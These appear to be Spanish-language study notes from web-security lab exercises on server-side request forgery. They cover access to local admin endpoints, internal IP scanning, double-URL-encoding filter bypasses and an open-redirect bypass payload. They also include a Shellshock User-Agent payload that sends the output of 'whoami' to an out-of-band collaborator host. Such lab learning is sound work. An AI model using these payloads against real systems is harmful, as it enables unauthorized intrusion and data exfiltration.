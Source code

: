 Tipos de SSRF:
* acceso al local server
* acceso a otra backend que se encuentra en el segmento de red
* bypassear un filtro de blacklist
* bypassear un filtro de open redirect
* Blind SSRF


1. Acceso a local server:
	1.  tengo un endpoint en particular (generalmente un POST) y cambio al request tratando de acceder a un recurso de administracion, asi como localhost/admin
	2. si la app no tiene filtro y el recurso existe dentro del host pues ya puedo ejecutar comandos

![[Pasted image 20230830135032.png]]


2. Acceso a otro backend
	1. usando el intruder hago un escaneo si alguien tiene en escucha un endpoint tipo localhost/admin
	2. copio la ip y trato de accederla:

Enviando el request al Intruder, seteando un payload en el ultimo octeto de la IP y haciendo un ataque de numeros del 1 al 255:

![[Pasted image 20230831134825.png]]

![[Pasted image 20230831134852.png]]

![[Pasted image 20230831135000.png]]


![[Pasted image 20230831135409.png]]

![[Pasted image 20230831135421.png]]

....

![[Pasted image 20230831135439.png]]

actualizando el payload:

![[Pasted image 20230831135509.png]]


3. Blacklist bypass: Tecnicas claves: 1) tratar de bypasear primer el localhost y luego el endpoint, 2) si el endpoint esta filtrado usar la tecnica de Double URL Encoding mas la primera letra del nombre: "admin" -> "%2561dmin"
	1. probar si el localhost es alcanzable:

![[Pasted image 20230911140654.png]]

![[Pasted image 20230911140722.png]]


* Probando bypasear el localhost

![[Pasted image 20230911140750.png]]

![[Pasted image 20230911141231.png]]

* Probando con el endpoint admin:

![[Pasted image 20230911141259.png]]

* Encodear el endpoint admin:

![[Pasted image 20230911141524.png]]

![[Pasted image 20230911141513.png]]



![[Pasted image 20230911141630.png]]


* Si encodeo incluso toda la cadena siempre obtengo el error, por tanto, la tecnica a usar se sugiere que sea la de Double URL Encoding el cual es poner al inicio del endpoint el caracter %25 y encodear la primera letra, luego queda a criterio encodear el resto del nombre del endpoint:

![[Pasted image 20230911142153.png]]

![[Pasted image 20230911142235.png]]

* Borrar la cuenta de carlos:


![[Pasted image 20230911142326.png]]


4. Bypassear filtrado usando un open redirection
	1. Aunque la aplicacion tenga un filtrado de direcciones o endpoints pero si es vulnerable a una redireccion puede lograrse acceso a un endpoint en particular:
	2. ejemplo: /product/nextProduct?currentProductId=6&path=http://evil-user.net
	3. si redirige a evil-user.net es que se logra generar el SSRF
	4. entonces el payload puede ser asi: stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
	
===============
5.  Blind SSRF
================
	
 1. Este es el tipo de SSRF mas complejo de explotar, normalmente no parecen tener tanto impacto como las anteriores categorias pero su potencial es que en ocasiones puede lograrse RCE
	2. Se recomienda intentar con tecnicas de Out of Band (OAST) con la intencion de lograr control sobre un host que permita interactuar con la red interna
	3. Ojo con la siguiente afirmacion:
	

![[Pasted image 20230914142555.png]]

4. Creo que se llama Blind SSRF porque no puede verse la respuesta del BackEnd, aca una explicacion:


![[Pasted image 20230914142851.png]]


7. Este es un muy buen recurso para leer sobre tecnica de explotacion: https://d0pt3x.gitbook.io/passion/webapp-security/server-side-request-forgery/exploiting-blind-ssrf


=============================
6. Blind SSRF con shellshock exploit
==============================

![[Pasted image 20230920135645.png]]

   * shellshock sólo existe en sistemas operativos basados en Unix
   * Payload shellshock: CVE-2014-6271:  $ env X='() { :; }; echo "pwned"' bash -c :
   * en el caso del lab el payload fue:  User-Agent: () { :; }; /usr/bin/nslookup $(whoami).g6n6dl0qo73jlw2n8y8hgx6l8ce22r.oastify.com
   * luego en el referer trato de hacer un hit a una de las IP dentro de la red y para ello uso un intruder con ataque de numero y eso genera un hit en el burp collaborator y ahi obtengo data exfiltration

=================================
7. Bypassing whitelist filtering
================================




8.  SSRF prevention techniques propuestas por el OWASP: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
9. payloads de SSRF: https://hacktricks.boitatech.com.br/pentesting-web/ssrf-server-side-request-forgery
10. patyloads para SSRF: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-a-domain-redirection
11. 